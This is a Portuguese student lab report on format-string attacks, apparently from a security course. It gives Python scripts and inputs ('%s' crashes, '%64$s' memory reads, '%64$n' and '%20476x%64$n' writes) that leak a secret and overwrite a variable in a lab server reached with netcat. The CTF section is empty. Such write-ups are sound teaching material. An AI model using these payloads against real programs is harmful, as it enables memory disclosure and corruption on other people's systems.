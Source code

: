 # Trabalho realizado na Semana #6

Para todas as tarefas utilizámos o método de guardar o *input* num ficheiro e
fornecê-lo ao servidor usando:
```
$ cat <file> | nc 10.9.0.5 9090
```
Sendo `<file>` o nome do ficheiro usado, no nosso caso: `badfile`.


## Tarefa 1

Como o objetivo nesta tarefa é *crashar* o programa, pensamos em aceder a endereços
de memória inválidos usando a *format-string* que vamos fornecer como input.  

Para tal decidimos usar:
```
%s%s%s%s
```
de forma a usar números que estão na *stack* como endereços de memória e tentar ler
*strings* nesses endereços. A quantidade de `%s` foi arbitrária e caso não causasse *crash*
à primeira tentativa, bastaria adicionar mais `%s` até um dos valores ser um endereço
inválido.  

*Program crash*:  
![/imgs6/crash.png](/imgs6/crash.png)

(Nota: não foi *printed* `(ˆ_ˆ)(ˆ_ˆ) Returned properly (ˆ_ˆ)(ˆ_ˆ)`, o que indica que
o programa efetivamente *crashou*)


## Tarefa 2.A

Para obter o número de `%x` *format specifiers* para o programa dar *print* dos primeiros
4 *bytes* de input bastou fazer vários testes usando o seguinte *script* de *python*
para ajudar a gerar o *badfile*:

```py
#!/usr/bin/python3
import sys

N = 1500
content = bytearray(0x0 for i in range(N))

NUM = 64
fmt = ("AAAA" + "-%x"*NUM).encode('latin-1')

content[0:len(fmt)] = fmt

with open('badfile', 'wb') as f:
    f.write(content)
```

Decidimos usar `AAAA` como os primeiros 4 *bytes* de *input* sendo a sua codificação
em hexadecimal = `0x41414141`.  

`NUM` representa a quantidade de `%x` necessários.  
Inicialmente usámos 100:

```py
NUM = 100
```

E obtivémos o seguinte resultado no *server*:  
![/imgs6/x100.png](/imgs6/x100.png)

Aqui vimos que o `41414141` se encontrava já *printed* e foi só uma questão de acertar
o `NUM` até chegar ao `64`:  
![/imgs6/x64.png](/imgs6/x64.png)

```py
NUM = 64
```


## Tarefa 2.B

O objetivo é dar *print* de uma variável global do tipo *string*.
Para tal, é necessário:

1. Saber o endereço onde se encontra.
2. Colocar na stack o valor do endereço do ponto 1.
3. Aceder ao endereço e dar `print` da string aí encontrada.

O ponto `1.` é dado pelo *printout* do *server*:  
![/imgs6/secret_message_address.png](/imgs6/secret_message_address.png)

O ponto `2.` é efetuado fornecendo o endereço como *input* ao programa dado que
esse *input* é guardado num *buffer*.  

O ponto `3.` é feito fazendo *exploit* da vulnerabilidade detetada no `printf()`.

Assim, usámos de novo um *script* de *python* para gerar o `badfile` que vai servir como *input*:

```py
#!/usr/bin/python3
import sys

N = 1500
content = bytearray(0x0 for i in range(N))

address = 0x080b4008
content[0:4] = (address).to_bytes(4, byteorder='little')

fmt = ("%64$s").encode('latin-1')
content[4:len(fmt)] = fmt

with open('badfile', 'wb') as f:
    f.write(content)
```

De notar que estamos a guardar o endereço `0x080b4008` no início e após isso usámos
o *format-specifier* `%64$s` de modo a dar print à *string* do suposto argumento 64 da 
`printf()`. (64 foi o número encontrado na [Tarefa 2.A](#tarefa-2a) e que, usado desta forma,
faz com que seja usado o endereço dado nos primeiros 4 *bytes* do *input* como endereço da *string*
que se pretende dar *print*)

*Printout* do *server* onde é possível ver o conteúdo da *secret-message*:  
![/imgs6/secret_message.png](/imgs6/secret_message.png)


## Tarefa 3.A

Nesta tarefa o objetivo não é ler, mas escrever. Para tal, usando a mesma vulnerabilidade,
o *exploit* terá que ser feito usando o *format-specifier* `%n`.

Mais uma vez, primeiro é necessário saber o endereço onde se pretende escrever:  
![/imgs6/target_variable_address.png](/imgs6/target_variable_address.png)

Após isto, usámos novamente um *script* de *python* para gerar o *input*:

```py
#!/usr/bin/python3
import sys

N = 1500
content = bytearray(0x0 for i in range(N))

address = 0x080e5068
content[0:4] = (address).to_bytes(4, byteorder='little')

fmt = ("%64$n").encode('latin-1')
content[4:len(fmt)] = fmt

with open('badfile', 'wb') as f:
    f.write(content)
```

Assim, foi colocado no início do *input* o endereço do *target* e de seguida foi passado o
*format-specifier* `%n` modificado (`%64$n`) para selecionar o 64.º suposto argumento de `printf()`,
que vai coincidir na *stack* com o início do nosso *input* guardado no *buffer* e que será usado como
endereço para guardar o número de caracteres escritos pelo `printf()` até ao momento.

*Printout* do *server* onde é possível ver que o *value* do *target* foi alterado:  
![/imgs6/target_variable_change.png](/imgs6/target_variable_change.png)


## Tarefa 3.B

A diferença desta tarefa para a anterior foi apenas na quantidade de caracteres aos quais
tivemos de dar print antes de usar o *format-specifier* `%n`.

Uma vez que é para alterar o *target* para `0x5000 = 20480`, e dado que
já são escritos 4 *bytes* devido ao endereço, torna-se necessário dar *print* a
mais `20480 - 4 = 20476` caracteres.

Uma vez mais, utilizamos um *script* de *python* para gerar o *input*:

```py
#!/usr/bin/python3
import sys

N = 1500
content = bytearray(0x0 for i in range(N))

address = 0x080e5068
content[0:4] = (address).to_bytes(4, byteorder='little')

fmt = ("%20476x%64$n").encode('latin-1')
content[4:len(fmt)] = fmt

with open('badfile', 'wb') as f:
    f.write(content)
```

A única diferença relativamente ao *script* da [Tarefa 3.A](#tarefa-3a) foi
a adição de `%20476x` antes do *format-specifier* que guarda a quantidade de caracteres
aos quais se deu *print*, de modo a imprimir um suposto 1.º argumento do `printf()` em
formato hexadecimal em `20476` caracteres com *leading spaces*.

*Printout* do *server* onde é possível ver que o *value* do *target* foi alterado para `0x5000`:  
![/imgs6/target_variable_change_0x5000.png](/imgs6/target_variable_change_0x5000.png)

De notar que foi efetivamente *printed* uma quantidade enorme de espaços seguida de um
valor hexadecimal de 4 *bytes*.


## CTF

### Desafio 1

### Desafio 2

























